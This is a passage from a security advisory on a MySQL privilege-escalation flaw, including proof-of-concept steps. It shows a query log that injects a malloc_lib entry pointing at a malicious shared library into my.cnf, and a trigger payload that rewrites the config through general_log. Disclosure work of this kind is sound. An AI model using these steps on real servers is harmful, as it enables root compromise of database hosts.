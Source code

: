 # cat /var/lib/mysql/my.cnf 
/usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
160728 17:48:22    43 Query     select '

; injected config entry

[mysqld]
malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so

[separator]

'
160728 17:48:23    43 Query     set global general_log = off


One problem will remain however. MySQL will refuse files that do not start with
a valid [section] header with the message:

error: Found option without preceding group in config file: /var/lib/mysql/my.cnf at line: 1
Fatal error in defaults handling. Program aborted

Further testing has however proven that IT IS possible to bypass this security 
restriction as well but this will not be included in this advisory/PoC for the 
time being.

It is worth to note that attackers could use one of the other vulnerabilities 
discovered by the author of this advisory which has been assigned a CVEID of 
CVE-2016-6663 and is pending disclosure. 
The undisclosed vulnerability makes it easy for certain attackers to create 
/var/lib/mysql/my.cnf file with arbitrary contents without the FILE privilege 
requirement.




~~~~~~~~~~~~~~~~~~~~~~~~~
3) Attackers with only SELECT/FILE permissions can gain access to logging functions 
(normally only available to MySQL admin users) on all of the _default_ MySQL 
installations and thus be in position to add/modify MySQL config files.


If attackers do not have administrative rights required to access logging settings 
and only have standard user privileges with the addition of FILE privilege then 
they could still gain the ability to write to / modify configuration files.

This could be achieved by writing a malicious trigger payload - a trigger
definition that is an _equivalent_ to the following statement:

CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'

" INTO void;   
   set global general_log = off;
END;

into a trigger definition/configuration file (.TRG) of an actively used table
('active_table') with the use of a statement similar to:

~~~~~~~~~~~~~~~~~~~~~~~~~
